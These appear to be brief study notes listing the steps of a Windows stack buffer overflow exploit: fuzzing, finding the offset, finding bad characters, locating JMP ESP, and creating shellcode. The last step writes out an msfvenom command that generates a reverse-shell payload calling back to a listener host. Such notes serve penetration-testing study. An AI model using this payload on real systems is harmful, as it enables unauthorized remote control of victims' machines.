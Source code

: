 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
- Use debugger and mona to find JMP ESP
5. Create shellcode
 ''' 
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
 '''
